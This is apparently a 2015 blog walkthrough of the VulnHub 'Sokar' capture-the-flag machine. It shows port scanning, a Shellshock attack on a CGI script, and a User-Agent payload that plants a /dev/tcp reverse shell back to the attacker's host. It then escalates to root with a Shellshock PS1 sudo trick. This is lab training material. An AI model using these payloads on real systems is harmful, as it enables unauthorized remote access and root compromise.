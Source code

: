 ```yaml
---
layout: blog_item
title:  "Sokar - Walkthrough"
date:   2015-02-23 14:00:10
author: Arr0way
description: 'Sokar - Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```



<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i><i class="fa fa-coffee"></i><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Description

Sokar was a vulnhub competition, unfortunately I did not have enough free time to compete.

**Author:** @_RastaMouse

**Download:** [VulnHub](https://www.vulnhub.com)


## Enumeration

### Port Scanning

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 192.168.30.148

{% endhighlight %}


### Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 591</code></p></pc>
           </td>
           <td>
               <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.15 ((CentOS))</p></pc>
           </td>
        </tr>
        </tbody>

</table>
</div>

### HTTP Enumeration

Inspection of the Web Application revealed <code>/cgi-bin/cat</code> which indicated it could be vulnerable to shellshock.

### Shellshock

The Shellshock exploit was used to execute remote commands on the target system, however a reverse shell or bind shell were not possible due to restrictive ingress and egress firewall rules. This made for a painful local enumeration of the system via **Burp Suite**.  

#### Identify Current User

![Shellshock ID](/img/blog/sokar/shellshock-id.png)

#### Shellshock home dir perms

![Shellshock home dir](/img/blog/sokar/shellshock-home-dirs.png)

#### Shellshock files owned by user bynarr  

![Shellshock find command](/img/blog/sokar/shellshock-find.png)

The file <code>/tmp/stats</code> appeared to get updated every few minutes, indicating a cronjob *could* be running.

#### Shellshock mail spool readable

![Shellshock mail](/img/blog/sokar/shellshock-mail.png)

The above disclosed <code>bynarrs</code> passwords and the outbound port <code>51242</code> rule for the user.

## Reverse Shell

The following shellshock payload was sent using Burp Suite:

{% highlight bash %}
User-Agent: () { :;};echo;/bin/echo '/bin/bash -i >& /dev/tcp/192.168.221.139/51242 0>&1 ' > /home/bynarr/.profile;
{% endhighlight %}

The cronjob called the .profile file and execute the file contents.

A reverse shell was successfully spawned as the user <code>bynarr</code>

{% highlight bash %}
[root:~/Downloads]# nc.traditional -lp 51242 -vvvv
listening on [any] 51242 ...
192.168.221.148: inverse host lookup failed: Unknown host
connect to [192.168.221.139] from (UNKNOWN) [192.168.221.148] 59533
bash: no job control in this shell
{% endhighlight %}


## Local Enumeration

The following disclosed several bash environment variables were permitted to run as the user <code>bynarr</code> with sudo permissions.

{% highlight bash %}
[bynarr@sokar ~]$ sudo -l
sudo -l
Matching Defaults entries for bynarr on this host:
    !requiretty, visiblepw, always_set_home, env_reset, env_keep="COLORS
    DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User bynarr may run the following commands on this host:
    (ALL) NOPASSWD: /home/bynarr/lime

{% endhighlight %}

## Shellshock Local Privilege Escalation

The following shellshock payload was crafted to successfully escalate permissions to root:

{% highlight bash %}
sudo PS1="() { :;} ;  /bin/sh" /home/bynarr/lime
{% endhighlight %}

## Root Flag

{% highlight bash %}
[bynarr@sokar tmp]$ sudo PS1="() { :;} ;  /bin/sh" /home/bynarr/lime
sudo PS1="() { :;} ;  /bin/sh" /home/bynarr/lime
sh-4.1# ls -la /home/bynarr/lime
ls -la /home/bynarr/lime
-rwxr-xr-x 1 root root 368 Jan 27  2015 /home/bynarr/lime
sh-4.1# cat /root/flag
cat /root/flag
                0   0
                |   |
            ____|___|____
         0  |~ ~ ~ ~ ~ ~|   0
         |  |   Happy   |   |
      ___|__|___________|___|__
      |/\/\/\/\/\/\/\/\/\/\/\/|
  0   |    B i r t h d a y    |   0
  |   |/\/\/\/\/\/\/\/\/\/\/\/|   |
 _|___|_______________________|___|__
|/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/|
|                                   |
|     V  u  l  n  H  u  b   ! !     |
| ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ |
|___________________________________|

=====================================
| Congratulations on beating Sokar! |
|                                   |
|  Massive shoutout to g0tmi1k and  |
| the entire community which makes  |
|         VulnHub possible!         |
|                                   |
|    rasta_mouse (@_RastaMouse)     |
=====================================
{% endhighlight %}

Thanks for the VM :)
